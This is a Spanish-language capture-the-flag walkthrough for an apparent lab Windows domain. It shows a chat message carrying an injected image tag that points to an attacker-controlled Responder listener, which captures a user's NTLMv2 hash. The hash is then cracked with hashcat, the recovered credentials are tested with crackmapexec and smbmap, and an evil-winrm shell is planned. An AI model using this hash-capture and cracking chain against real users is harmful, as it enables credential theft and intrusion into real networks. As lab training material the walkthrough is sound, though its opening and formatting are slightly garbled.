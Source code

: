 Nuestro mensaje hacia buse seria :

```bash
Hola buse, tengo que pedirte un favor enorme<img src="http://LHOST/test.jpg">

## En nuestro Responder

[+] Listening for events...
[HTTP] NTLMv2 Client   : IPTARGET
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:9D9015D344D844D7F7797000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000800300030000000000000000100000000200000953FC303D67FE978567F26A0C2DCF64061C9C7710316A579F513F56F7D6C02B50A00100000000000000000000000000000000000090000000000000000000000
```


Una vez obtenido este hash, tenemos que crackerlo. Para esta tarea, usaremos `hashcat` para descubrir la password de buse. Primero hay que averiguar que tipo de hash es, en nuestro responder nos dira el tipo de hash o bien podemos utilizar `hashid` para averiguar esto. Una vez descubierto, procedemos a crackearlo. Seguiremos estos pasos:

```bash
hashid hash.txt
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show
```

Tendremos sus credenciales,corroboraremos si tenemos acceso como buse con crackmapexc y enumearemos todo su contenido.

```bash
crackmapexec smb DOMAIN -u buse -p PASS

SMB         windcorp.thm    445    FIRE             [+] 

# smbmap

smbmap -H DOMAIN -u buse -p PASS -R

.\Users\buse\Desktop\*
	dw--w--w--                0 Thu May  7 06:01:26 2020	.
	dw--w--w--                0 Thu May  7 06:01:26 2020	..
	dr--r--r--                0 Thu May  7 06:00:17 2020	Also stuff
	fr--r--r--              282 Fri May  1 06:25:41 2020	desktop.ini
	fr--r--r--               45 Sat May  2 14:53:18 2020	Flag 2.txt
	fr--r--r--               37 Fri May  1 11:33:56 2020	Notes.txt
	dr--r--r--                0 Thu May  7 05:58:43 2020	Stuff

```

Para hacer esto mas comodo, necesitamos una shell interactiva para movernos entre direcorios y tambien poder transferirnos archivos si queremos. Para esto, vamos a utilizar una herramienta llamada `evil-winrm` que es una herramienta de linea de comandos y permite la administración remota de sistemas.
